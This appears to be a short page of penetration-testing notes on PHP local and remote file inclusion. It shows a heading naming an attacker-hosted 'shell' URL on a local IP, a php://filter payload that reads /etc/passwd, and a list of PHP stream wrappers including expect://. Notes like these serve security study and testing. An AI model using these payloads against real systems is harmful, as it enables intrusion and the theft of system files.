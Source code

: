 ### make server `http://192.168.1.10/shell?`

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### php wrapper local file inclusion

<pre><code><strong>php://filter/convert.base64-encode/resource=/etc/passwd
</strong></code></pre>

* [file://](https://www.php.net/manual/en/wrappers.file.php) — Accessing local filesystem
* [http://](https://www.php.net/manual/en/wrappers.http.php) — Accessing HTTP(s) URLs
* [ftp://](https://www.php.net/manual/en/wrappers.ftp.php) — Accessing FTP(s) URLs
* [php://](https://www.php.net/manual/en/wrappers.php.php) — Accessing various I/O streams
* [zlib://](https://www.php.net/manual/en/wrappers.compression.php) — Compression Streams
* [data://](https://www.php.net/manual/en/wrappers.data.php) — Data (RFC 2397)
* [glob://](https://www.php.net/manual/en/wrappers.glob.php) — Find pathnames matching pattern
* [phar://](https://www.php.net/manual/en/wrappers.phar.php) — PHP Archive
* [ssh2://](https://www.php.net/manual/en/wrappers.ssh2.php) — Secure Shell 2
* [rar://](https://www.php.net/manual/en/wrappers.rar.php) — RAR
* [ogg://](https://www.php.net/manual/en/wrappers.audio.php) — Audio streams
* [expect://](https://www.php.net/manual/en/wrappers.expect.php) — Process Interaction Streams
